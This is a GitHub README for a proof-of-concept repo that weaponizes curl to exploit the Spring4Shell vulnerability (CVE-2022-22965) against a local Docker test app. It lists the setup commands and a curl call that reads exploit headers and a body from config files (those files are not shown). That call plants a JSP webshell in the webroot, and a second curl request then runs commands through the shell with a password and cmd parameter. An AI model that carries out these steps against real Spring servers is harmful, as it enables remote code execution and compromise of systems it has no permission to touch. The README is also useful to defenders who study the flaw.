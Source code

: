 # Spring4Shell-cURL
cURL configs for exploiting Spring4Shell 


## Weaponzing cURL to Exploit Spring4Shell (CVE-2022-22965) 
I hadn't seen this method posted anywhere, just wanted to document. 99% of this is not my work. I just combined unique aspects into this repo. 


### Quick Setup

0. Clone the repo. You'll need Docker and cURL. If somehow you don't have cURL, download from: [https://everything.curl.dev/get](https://everything.curl.dev/get)
1. Deploy Docker container:  
`docker image build . && docker container run -it --publish 8080:8080 retro/stupidrumor`.
3. Issue the cURL command:  
`curl --config request.txt http://localhost:8080/stupidRumor_war/index`. This cURL command first reads from the `requests.txt` file. Inside the `request.txt` are things like the specific headers we need to exploit the vulnerable application. Noteably, the last line is `data-binary = "@body.txt"`, which contains our POST body. 
   
   **Note:** I've configured cURL to also send our requests through a transparent application proxy (Burp) in this case on `port 8081`, not `8080` as that's already taken by the Docker app. This is mostly for troubleshooting, but good to have in your Repeater nonetheless :)
   
3. Once the cURL command is sent, the webshell (`tomcatwar.jsp`) will be uploaded to the webroot (`stupidRumor_war/`), which means you can access it here in a browser if you want: `stupidRumor_war/tomcatwar.jsp?`
4. But we're using cURL, so now issue the second cURL request:  
`curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -`. 


   
![image](https://user-images.githubusercontent.com/13237617/161151879-3cf326ad-6610-4bfe-992d-1d03279e6da5.png)

   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)
